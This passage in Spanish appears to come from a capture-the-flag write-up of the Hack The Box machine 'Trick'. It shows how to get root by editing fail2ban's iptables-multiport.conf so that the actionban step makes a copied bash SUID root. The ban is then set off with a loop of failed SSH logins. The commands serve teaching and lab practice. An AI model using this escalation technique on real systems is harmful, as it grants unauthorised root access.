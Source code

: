Ya teniendo esto listo, solo queda modificar el archivo `/etc/fail2ban/action.d/iptables-multiport.conf`, con los comandos traviesos.

Primero copiemos el binario `/bin/bash` a una carpeta propia (esto para no molestar a los demás usuarios al cambiar las propiedades del objeto `/bin/bash` del sistema) (ya explicaremos para que):

```bash
mkdir /tmp/test
cd /tmp/test
cp /bin/bash .
```

Veamos el objeto `/etc/fail2ban/action.d/iptables-multiport.conf`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/trick/477bash_michaelSH_cat_iptablesMultiportCONF.png" style="width: 80%;"/>

De él debemos tener en cuenta algo, al ser baneados va a llegar a la variable `actionban` y ejecutará esos comandos, así que ahí debe ir lo nuestro (:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/trick/477bash_michaelSH_cat_iptablesMultiportCONF_actionban.png" style="width: 100%;"/>

La idea es asignar a `root` como ***owner*** del objeto (como `michael` lo copio, él queda como **owner**) y luego jugar con el permiso [setuid](https://rm-rf.es/permisos-especiales-setuid-setgid-sticky-bit/) para que el archivo obtenga los permisos del propietario al ser ejecutado (sin importar quien lo ejecute), que al final seria **root**.

* [Los bits SUID, SGID y sticky](https://www.ibiblio.org/pub/linux/docs/LuCaS/Manuales-LuCAS/doc-unixsec/unixsec-html/node56.html).
* [Permisos especiales en Linux: Sticky Bit, SUID y SGID](https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/).

🛎️ Nuestro payload seria:

```bash
chown root:root /tmp/test/bash; chmod 4755 /tmp/test/bash
```

🛎️ Modificamos el archivo `/etc/fail2ban/action.d/iptables-multiport.conf` ahora si:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/trick/477bash_michaelSH_cat_iptablesMultiportCONF_actionban_PWN.png" style="width: 100%;"/>

🛎️ Validamos permisos actuales:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/trick/477bash_michaelSH_lsLA_tmpBASH.png" style="width: 100%;"/>

🛎️ Reiniciamos el servicio **fail2ban** para que tome la nueva configuración:

```bash
sudo /etc/init.d/fail2ban restart
```

🛎️ Hacemos que nos baneen (debemos correrlo 2 veces por si a la primera no funciona):

```bash
for i in $(seq 1 6); do sshpass -p 'la_password_que_no_conocemos' ssh michael@10.10.11.166; done
```

🛎️ Yyyyyy:
